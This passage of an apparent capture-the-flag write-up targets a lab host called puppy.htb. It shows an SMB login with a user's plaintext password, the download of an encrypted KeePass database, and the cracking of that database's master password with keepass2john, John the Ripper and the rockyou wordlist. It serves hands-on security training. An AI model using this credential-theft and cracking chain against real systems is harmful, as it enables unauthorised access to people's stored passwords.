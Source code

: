 
inside the share we find an encrypted Keepass database

``` bash
$ smbclient //puppy.htb/dev -U levi.james%'KingofAkron2025!'
Can''t load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Mar 23 07:07:57 2025
  ..                                  D        0  Sat Mar  8 16:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 07:09:12 2025
  Projects                            D        0  Sat Mar  8 16:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 02:25:46 2025

		5080575 blocks of size 4096. 1625222 blocks available
smb: \> get recovery.kdbx
getting file \recovery.kdbx of size 2677 as recovery.kdbx (3.3 KiloBytes/sec) (average 3.3 KiloBytes/sec)
```

I tried getting a john-compatible hash from the file using `keepass2john` script but to my surprise that didn't work for me at first, even tho I had a latest `john 1.9.0.jumbo1-11` from the arch linux archives

```bash
$ keepass2john recovery.kdbx
! recovery.kdbx : File version '40000' is currently not supported!
```

so I compiled the latest commit from the github repo and extracted the hash and cracked it

```bash
$ ./john/keepass2john recovery.kdbx > hash
$ ./john/run/john hash --wordlist=rockyou.txt
KeePass-opencl: Argon2 hash(es) not supported, skipping.
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-Argon2-opencl"
Use the "--format=KeePass-Argon2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 256/256 AVX2])
Cost 1 (t (rounds)) is 37 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 4 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Failed to use huge pages (not pre-allocated via sysctl? that''s fine)
liverpool        (recovery)
1g 0:00:00:12 DONE (2025-09-22 14:24) 0.07770g/s 3.108p/s 3.108c/s 3.108C/s purple..123123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I opened the keepass database using the recovered password and found few credentials inside
